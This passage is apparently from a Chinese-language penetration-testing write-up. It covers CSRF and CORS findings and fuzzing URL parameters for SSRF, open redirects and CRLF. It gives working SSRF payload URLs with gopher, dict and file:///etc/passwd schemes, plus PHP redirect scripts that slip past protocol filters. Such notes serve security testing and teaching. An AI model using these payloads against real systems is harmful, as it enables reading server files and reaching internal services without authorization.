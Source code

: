 详细利用可参考我之前的利用方式的[记录](https://github.com/Qclover/CSRF)里面包含了poc构造工具。另外关于CSRF的利用及其防护也可参考之前的[一篇文章](https://xz.aliyun.com/t/6414)。

3)CORS跨域资源请求

在请求的时候加上了请求头 `Origin: http://xxx.com`，而对应的响应包中出现了`Access-Control-Allow-Origin: http://vul.com这个响应头其实就是访问控制允许，在这里是允许http://vul.cm的请求的，所以目标http://vul.com是可以被跨域读取该网址的内容

### **[SSRF-or-URL跳转漏洞ext-Fuzzing]**

资产测试时可能存在这样的URL: 

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
https://xxx.com/notice/?info=xxx&gourl=
https://xxx.com/api/?uri=xxx&redict=
```

对于如上这样的GET型的链接Fuzz的点有什么呢？SSRF、url跳转，结束了吗?ext扩展发散一下其实还有，只是平常利用的比较少或比较少想到在一次机缘巧合刚好想到也刚好遇上了，继续fuzzing下，其实还可以考虑**CRLF**，url_redict+CRLF、CRLF+XSS。

**对于SSRF**

测试

```
http://www.xxx.com/vul.php?url=http://127.0.0.1:port
```

根据回显内容和状态即可确定漏洞是否存在。

协议利用

```
gopher
http://127.0.0.1/ssrf.php?url=gopher://127.0.0.1:2333/_test
dict
http://4o4notfound.org/ssrf.php?url=dict://127.0.0.1:port/info
file
http://4o4notfound.org/ssrf.php?url=file:///etc/passwd
http
http://4o4notfound.org/ssrf.php?url=http://xxx.com/302.php
```

协议限制为http下向服务端提交302.php

```
<?php
header("Location: file:///etc/passwd");
?>
```

辅助脚本302.php—-bypass http协议限制 

```
<?php

$ip = $_GET['ip'];

$port = $_GET['port'];

$scheme = $_GET['s'];

$data = $_GET['data'];

header("Location: $scheme://$ip:$port/$data"); ?>
```
